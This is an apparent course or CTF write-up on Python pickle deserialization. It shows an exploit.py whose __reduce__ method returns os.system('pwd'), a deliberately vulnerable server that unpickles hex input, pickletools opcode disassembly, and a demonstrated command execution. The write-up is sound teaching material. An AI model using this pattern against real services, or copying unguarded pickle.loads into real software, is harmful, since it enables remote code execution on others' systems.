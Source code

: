 ```yaml
---
title: Simple Web 0x15.5(Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Deserialization"
---
```


# Simple Web 0x15.5(Pickle)
###### tags: `NTUSTWS` `CTF` `Web`

## Background - Pickle
Python magic method: `__reduce__`
`__recude__` is used to define what needs to be done when deserializing.
[Web Hacking | 終章【EDU-CTF 2021】](https://youtu.be/73uI7BK8k3g?t=236)

## Source code
:::spoiler `exploit.py`
```python!=
import pickle
import os
import pickletools

class exploit(object):
    def __reduce__(self):
        return (os.system, ('pwd',))
    

serialized = pickle.dumps(exploit())
print(bytes.hex(serialized))
optim_s = pickletools.optimize(serialized)
print(pickletools.dis(serialized))
print(pickletools.dis(optim_s))
```
:::

--- 
:::spoiler server_app.py
```python=
import pickle

serialized = bytes.fromhex(input('Data: '))
pickle.loads(serialized)
```
:::
## Output & Analyze
### In Linux
![](https://i.imgur.com/uYkq006.png)
* `GLOBAL 'posix system'`: import `posix system`(which is a library in linux)
* `BINPUT 0`: put the top stack to position 0 at Memo structure(array)
* `BINUNICODE`: push string 'pwd' to stack top
* `TUPLE1`: let the element of top stack be a tuple type
* <font color="FF0000">`REDUCE`</font>:
    ```
    args = stack.top() # which is 'pwd' in tuple type
    func = stack.top() # which is 'posix system'
    stack.push(func(args)) 
    # then it'll execute os.system('pwd') and push the output to stack
    ```
![](https://i.imgur.com/VqhEs9r.png)

### In Windows
![](https://i.imgur.com/nnWH7Uh.png)
Much similar with the outcome on linux environment.
### Analyze

## How to RCE?
```bash!
$ python exploit.py | python server_app.py
Data: /home/sbk6401/NTUSTWS/deserialization
```
How did it do?
First, `exploit.py` will serialize the exploit function and turned it to `byte.hex` then send it `server_app.py`
Then `server_app.py` will deserialize it and during the process, it'll execute magic method `__reduce__`, suddenly, it'll execute `os.system('pwd')` at the same time → **RCE**